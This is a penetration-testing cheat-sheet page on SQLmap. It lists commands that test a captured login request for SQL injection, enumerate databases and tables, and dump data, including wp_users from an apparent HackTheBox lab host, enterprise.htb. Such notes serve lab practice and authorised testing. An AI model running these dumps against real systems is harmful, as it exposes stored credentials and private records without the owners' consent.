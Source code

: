 ```yaml
---
icon: sword
---
```


# SQLmap

{% hint style="info" %}
### <mark style="color:purple;">Operators</mark>


{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`HTTPS`</mark> <mark style="color:purple;">Sequence</mark>

{% code title="Initiates the injection test" %}
```sh
sqlmap -r login.request --force-ssl --batch
```
{% endcode %}

{% code title="Enumerate the databases" %}
```sh
sqlmap -r login.request --force-ssl --batch --dbs
```
{% endcode %}

* <mark style="color:purple;">Once you know the databases, start looking at the tables:</mark>

```sh
sqlmap -r login.request --force-ssl --batch -D DATABASE --tables
```

* <mark style="color:purple;">Dump the data from the desired tables within the database:</mark>

{% code overflow="wrap" %}
```shell
sqlmap -r login.request --force-ssl --batch -D DATABASE -T TABLE --dump
```
{% endcode %}
{% endhint %}



```bash
#Enumerate databases
sqlmap -u <http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1> --batch -dbms mysql --dbs

#Dumb a database
sqlmap -u <http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1> --batch -dbms mysql --dump --threads 10 -D wordpress  -T wp_users
sqlmap -u <http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1> --batch --dump --threads 10 -dbms mysql -D joomladb --tables
#Dumb a determinated row
sqlmap -u <http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1> --batch --dump --threads 10 -dbms mysql -D wordpress  -T wp_posts -C post_content --where "ID>=66 and ID<=68"
```

